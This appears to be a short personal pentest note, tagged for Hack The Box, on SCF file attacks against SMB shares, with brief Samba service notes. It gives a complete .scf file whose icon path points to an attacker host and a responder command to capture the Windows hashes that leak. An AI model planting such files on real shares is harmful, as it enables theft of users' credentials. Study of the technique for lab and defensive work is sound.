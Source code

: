 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# SMB share - SCF file Attacks


Name it: 

**@attack.scf**

 ```vim
 [Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
 ```

Start responder and upload @attack.scf

```bash
sudo responder -wrf --lm -I <Interface>
```
https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/


#smb #driver #htb #responder #windows

# Samba - Linux
### Start / Stop service

```bash
sudo service smbd stop/start
```

### Configuration file
````bash
/etc/samba/smb.conf
````


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
